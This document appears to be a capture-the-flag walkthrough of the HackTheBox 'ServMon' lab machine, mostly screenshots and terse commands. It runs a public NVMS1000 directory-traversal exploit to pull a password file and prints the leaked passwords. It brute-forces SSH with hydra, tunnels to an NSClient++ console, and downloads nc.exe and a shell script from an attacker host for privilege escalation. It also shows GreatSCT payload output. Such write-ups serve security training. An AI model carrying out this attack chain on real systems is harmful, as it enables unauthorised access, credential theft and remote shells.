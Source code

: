 ### 15-Mar-24-Fri

[ServMon](https://app.hackthebox.com/machines/ServMon)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/44ff979e-f709-4978-92e5-218b42345017)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/2b171915-d18e-4c3a-a234-7438ffd5a8d4)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/5b193143-2df7-40de-8e91-006d66149650)

*Notes to do.txt*

```
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
```

*Confidential.txt*

```
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine
```

https://github.com/AleDiBen/NVMS1000-Exploit/blob/master/nvms.py

```
python nvms.py 10.129.219.191 Users/Nathan/Desktop/Passwords.txt Passwords.txt
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/a6a801b5-d25f-49db-a382-e77cc9e8a3ff)

```
++++++++++ BEGIN ++++++++++
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
++++++++++  END  ++++++++++
```

```
hydra -L Users.txt -P Passwords.txt ssh://10.129.219.191:22 -t 4 -V
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/bd576dbb-3b39-494d-bd2b-39524ca532d4)

```
[22][ssh] host: 10.129.219.191   login: Nadine   password: L1k3B1gBut7s@W0rk
```

```
ssh Nadine@10.129.219.191
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/61d7350e-59a4-4411-9e2c-63a745a88e56)

```
eba203a9c395aef828f6801967cca9bd
```

```
type nsclient.ini
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/9059e2c6-e2cd-4b7e-8176-9009408bb4f8)

```
nscp.exe --version
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/25030114-a04f-48d6-8302-1fdab44eefd5)

NSClient++, Version: 0.5.2.35 2018-01-28, Platform: x64

```
ssh -L 8443:127.0.0.1:8443 nadine@10.129.219.191
```

https://127.0.0.1:8443

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/67ac8814-92dd-43b1-a388-54e8392b028f)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/00a70d61-cc52-4a0c-b39c-e5620b13fe95)

```
ew2x6SsGTxjRwXOT
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/0347c706-e6d1-4276-b472-59e3f48c34b0)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/75e77ec1-d328-46a8-8b8a-fe4f321756c6)

https://github.com/xtizi/NSClient-0.5.2.35---Privilege-Escalation

https://www.exploit-db.com/exploits/46802

```
wget http://10.10.16.5:8000/nc.exe -o nc.exe
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/a9c6f90b-74c0-485d-a918-e737ca18cf64)

```
powershell wget http://10.10.16.5/nc.exe -outfile nc.exe
```

```
powershell wget http://10.10.16.5/shell.bat -outfile shell.bat
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/ff0dbd6a-4b09-460b-bcf1-3825d822b431)

https://github.com/GreatSCT/GreatSCT

```
===============================================================================
                                   Great Scott!
===============================================================================
      [Web]: https://github.com/GreatSCT/GreatSCT | [Twitter]: @ConsciousHacker
===============================================================================

 [!] ERROR: Unable to create output file.
 [*] Source code written to: /usr/share/greatsct-output/source/serv.cs
 [*] Execute with: C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe serv.dll
 [*] Metasploit RC file written to: /usr/share/greatsct-output/handlers/serv.rc
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/44f2c4d2-4333-4f8a-bef1-084b2137e1c5)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/c4af559d-6087-4b07-a1ff-680bc4377f79)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/1c33cb0b-3801-4bc1-b98b-5bd33125c762)

